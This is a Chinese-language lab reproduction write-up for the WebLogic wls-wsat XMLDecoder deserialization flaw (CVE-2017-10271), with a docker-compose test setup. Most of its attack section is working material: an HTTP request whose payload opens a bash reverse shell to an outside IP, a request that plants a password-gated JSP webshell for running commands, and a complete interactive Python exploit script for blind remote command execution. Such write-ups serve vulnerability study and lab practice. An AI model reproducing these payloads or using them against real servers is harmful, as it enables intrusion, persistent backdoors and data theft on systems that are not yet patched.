 # Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- [https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic WLS-WebServices组件反序列化漏洞分析.md)
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## 环境搭建

Vulhub启动测试环境：

```
docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

![image-20220302164201482](./images/202203021642629.png)

## 漏洞复现

### 反弹shell

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.174.128/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

成功获取shell：

![image-20220302164442146](./images/202203021644422.png)

### webshell

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
    <% if("poc".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
            while((a=in.read(b))!=-1){
                out.println(new String(b,0,a));
            }
            out.print("</pre>");
        }
    %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问：`http://your-ip:7001/bea_wls_internal/test.jsp`，执行命令：

![image-20220302165701848](./images/202203021657971.png)

## 漏洞EXP

```python
from __future__ import print_function
from builtins import input
import requests
import sys

url_in = sys.argv[1]
payload_url = url_in + "/wls-wsat/CoordinatorPortType"
payload_header = {'content-type': 'text/xml'}


def payload_command (command_in):
    html_escape_table = {
        "&": "&amp;",
        '"': "&quot;",
        "'": "&apos;",
        ">": "&gt;",
        "<": "&lt;",
    }
    command_filtered = "<string>"+"".join(html_escape_table.get(c, c) for c in command_in)+"</string>"
    payload_1 = "<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"> \n" \
                "   <soapenv:Header> " \
                "       <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\"> \n" \
                "           <java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\"> \n" \
                "               <void class=\"java.lang.ProcessBuilder\"> \n" \
                "                  <array class=\"java.lang.String\" length=\"3\">" \
                "                      <void index = \"0\">                       " \
                "                          <string>cmd</string>                 " \
                "                      </void>                                    " \
                "                      <void index = \"1\">                       " \
                "                          <string>/c</string>                  " \
                "                      </void>                                    " \
                "                      <void index = \"2\">                       " \
                + command_filtered + \
                "                      </void>                                    " \
                "                  </array>" \
                "                  <void method=\"start\"/>" \
                "                  </void>" \
                "            </java>" \
                "        </work:WorkContext>" \
                "   </soapenv:Header>" \
                "   <soapenv:Body/>" \
                "</soapenv:Envelope>"
    return payload_1

def do_post(command_in):
    result = requests.post(payload_url, payload_command(command_in ),headers = payload_header)

    if result.status_code == 500:
        print("Command Executed \n")
    else:
        print("Something Went Wrong \n")



print("***************************************************** \n" \
       "****************   Coded By 1337g  ****************** \n" \
       "*  CVE-2017-10271 Blind Remote Command Execute EXP  * \n" \
       "***************************************************** \n")

while 1:
    command_in = input("Eneter your command here: ")
    if command_in == "exit" : exit(0)
    do_post(command_in)
```

